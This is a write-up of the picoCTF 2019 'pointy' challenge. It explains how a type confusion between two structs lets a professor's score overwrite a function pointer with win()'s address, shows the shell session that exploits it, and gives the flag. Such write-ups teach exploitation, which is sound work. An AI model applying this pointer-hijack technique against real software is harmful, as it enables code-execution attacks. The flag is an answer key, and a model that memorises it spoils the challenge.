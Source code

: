 ## Writeup for 2019 picoCTF: pointy

### Problem
> Exploit the function pointers in this [program](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln). It is also found in /problems/pointy_0_4da9845cb7c41585de522db47f569424 on the shell server. [Source](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln.c).  
  
Note the one function pointer in vuln.c's struct Student: `void (*scoreProfessor)(struct Professor*, int)` and that scoreProfessor is called on line 93.  

To get the program to call `win()`, we need to somehow assign win's address to scoreProfessor. Access to scoreProfessor via a student is already blocked by `student->scoreProfessor=&giveScoreToProfessor`.  However:    
1. lastscore and scoreProfessor have the same offset from the respective struct's address.  
2. The student and professor variables in `main` are cast from the return values of retrieveStudent and retrieveProfessor, which are identical.  

This means we could give win's address as a professor's score. Then, cast the professor into a student, which effectively casts Professor's `int lastscore` to Student's `void (*scoreProfessor)(struct Professor*, int)` ie. casts the professor's score to a pointer to win(). Thus the next time student->scoreProfessor is called, win would be executed.  

### Solution: objdump
First `objdump -D vuln | grep win` to disassemble all sections of vuln to get addresses, and pipe that ouput to grep to get only the win function section. You will find that `08048696` is the address in hex, which converts to `134514326` as int / unsigned int. **Here is how the interaction in the shell goes**:
```
@pico-2019-shell1:/problems/pointy_0_4da9845cb7c41585de522db47f569424$ ./vuln
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score   
s0  
Input the name of the professor that will be scored  
s0  
s0  
Input the score:  
134514326  
Score Given: 134514326   
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score  
s0
Input the name of the professor that will be scored 
s0  
s0  
Input the score:  
0  
```
**Flag: picoCTF{g1v1ng_d1R3Ct10n5_d9be6a30}**
